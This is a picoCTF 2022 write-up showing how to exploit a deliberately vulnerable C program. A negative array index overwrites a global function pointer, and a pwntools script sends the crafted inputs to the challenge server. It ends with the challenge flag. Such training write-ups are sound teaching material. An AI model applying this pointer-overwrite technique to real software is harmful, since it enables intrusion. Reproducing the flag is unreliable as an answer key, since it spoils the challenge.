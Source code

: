 #pico2022 #binaryexploitation 

## Challenge:
```md
Story telling class 2/2
```

This challenge launches an instance.
```md
Story telling class 2/2 You can point to all kinds of things in C. Checkout our function pointers demo [program](https://artifacts.picoctf.net/c/228/vuln). You can view source [here](https://artifacts.picoctf.net/c/228/vuln.c). And connect with it using `nc saturn.picoctf.net 60356`
```

## Process:
Download the files.
```bash
curl -O https://artifacts.picoctf.net/c/228/vuln
curl -O https://artifacts.picoctf.net/c/228/vuln.c
```
#curl 

Make executable.
```bash
chmod +x vuln
```
#chmod 

I created a *flag.txt* file
```bash
echo "flag{}" > flag.txt
```
#echo 

Looking at the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
#c 

We want to change the ```hard_checker``` to the ```easy_checker```.
![[053_function_overwrite-0.png]]
#gdb 

![[053_function_overwrite-1.png]]
#gdb 

The offset of ```easy_checker``` to ```hard_checker``` is ```0x8049436 - 0x80492fc ```.
```python
#!/usr/bin/env python3

hard = int("0x08049436", 16)
easy = int("0x080492fc", 16)

print(hard - easy)
```
#python 

Offset:
```
314
```

So ```num1``` should be ```-64/sizeof(int)==16``` and ```num2``` is ```-314```.

The value of ```~``` is ```126``` and ```M``` is ```77```. So ```126*10 + 77 = 1337```. Therefore ```story``` should be ```~~~~~~~~~~M```.

Now for exploiting.
```python
#!/usr/bin/env python3

from pwn import *

host, port = 'saturn.picoctf.net', 60356

p = remote(host, port)
story = '~'*10+'M' # 1337
p.sendlineafter('>>', story)
print(p.recvuntil('10'))
p.sendline('-16 -314') #-16 to access check from fun, -314 is the offset between hard and easy
p.interactive()
```
#python #pwntools 

Output:
![[053_function_overwrite-2.png]]
#pwntools 

Flag achieved.
```bash
echo "picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}" > flag.txt
```
#echo 

**Flag: *picoCTF{0v3rwrit1ng_P01nt3rs_529bfb38}***
